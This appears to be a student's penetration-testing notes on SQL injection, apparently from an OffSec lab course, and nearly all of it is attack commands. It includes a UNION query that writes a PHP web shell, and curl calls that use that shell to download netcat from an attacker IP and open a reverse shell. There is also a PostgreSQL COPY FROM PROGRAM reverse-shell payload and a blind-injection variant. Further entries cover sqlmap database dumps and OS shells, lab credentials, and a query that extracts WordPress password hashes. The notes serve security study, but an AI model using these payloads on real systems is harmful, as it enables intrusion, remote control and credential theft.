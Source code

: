 ```shell
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
' # Results in 
<? system($_REQUEST['cmd']); ?>

http://<IP>/tmp/webshell.php?cmd=id # Execute via WEB
# OR
curl "http://<IP>/tmp/webshell.php?cmd=whoami"  # Validate webshell works
curl "http://<IP>/tmp/webshell.php?cmd=certutil+-urlcache+-f+http://192.168.45.167/nc.exe+nc.exe" # Stage NC on target
curl "http://<IP>/tmp/webshell.php?cmd=nc.exe+192.168.45.167+4441+-e+powershell.exe"  # Connect back to our attacker
```

### Postgress  
* ` COPY shell FROM PROGRAM ‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f’; `
 * 10.3.2 Q6  LAB had this SQLi blind injections
    *   `weight=1&height='%3bDROP+TABLE+IF+EXISTS+commandexec%3bCREATE+TABLE+commandexec(data+text)%3bCOPY+commandexec+FROM+PROGRAM+'/usr/bin/nc.traditional+-e+/bin/sh+192.168.45.241+4444'%3b--&age=24&gender=Male&email=test%40offsec.com  `
* * Reference Postgress Walkthroughs
	* https://www.offsec.com/blog/postgresql-exploit/
	* https://book.hacktricks.wiki/en/pentesting-web/sql-injection/postgresql-injection/index.html
## SQLMAP - Automating SQLi
```bash
# POST  request using user variable 
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user

# Burp -> take POST request, copy to file "request.txt", identify VAR for -p below , DUMP DB 
sqlmap -r request2.txt -p uid --dump

# get interactive shell
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```

# Labs
## 10.1
* 10.1.1 192.168.102.16
```sql
mysql -u root -p'root' -h 192.168.102.16 -P 3306 --skip-ssl-verify-server-cert
select user, authentication_string,plugin FROM mysql.user where user = 'offsec';
```
* 10.1.2 192.168.102.18
```sql
impacket-mssqlclient Administrator:Lab123@192.168.102.18 -windows-auth
```

##  10.3.2 Q4 
* WPSCAN found vulnerability for Perfect Survey < 1.5.2 
* Searchsploit Pefect Survey found .py code, that was hard to execute 
* `sqlmap "http://alvida-eatery.local/wp-admin/admin-ajax.php?action=get_question&question_id=1 *" --current-user --answers="follow=Y" --batch -v 0`
* user == dbadmin@localhost
* in firefox browser, check output, this didn't work in BURP
```http
http://alvida-eatery.local//wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users
```